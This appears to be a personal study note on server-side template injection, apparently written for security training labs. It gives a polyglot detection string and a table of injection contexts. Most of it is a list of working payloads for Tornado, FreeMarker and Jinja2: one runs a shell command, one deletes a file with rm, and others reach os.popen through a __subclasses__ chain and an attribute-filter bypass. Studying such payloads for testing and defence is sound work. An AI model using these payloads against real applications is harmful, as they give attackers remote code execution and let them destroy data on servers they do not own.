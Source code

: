 it's like xss
but in the backend the parameter go into template ( search about it)

the payload : ${{<%[%'"}}%\

![[Capture d’écran 2025-06-09 234925.png]]


sometime you need to close the first template and inject another : }}{{hello}}

| Injection Context                  | You Inject   | Why                |
| ---------------------------------- | ------------ | ------------------ |
| You control entire template        | `{{7*7}}`    | Works directly     |
| You are inside a `{{ ... }}` block | `}} {{7*7}}` | Need to escape out |
| You are in plain HTML context      | `{{7*7}}`    | Works fine         |

#### some payloads : 


- python tornado : 
{% import os %} {{os.system('cmd')

- Freemarker template engine : <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
payload to rce : {{''.__class__.__mro__[y].__subclasses__()[x]("cmd",shell=True,stdout=-1).communicate()}}

x : the number of subprocess.popen , you can find when execute just the ''.__class__.__mro__[1].__subclasses__()

when . is blocked : try this : 
{{''|attr("__class__")}} : kml kima hak

{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}

|attr("__class__")

request|attr("application")|attr("__globals__")|attr("__builtins__")|attr("__import__('os')")|attr("popen('ls -R')")|attr("read()")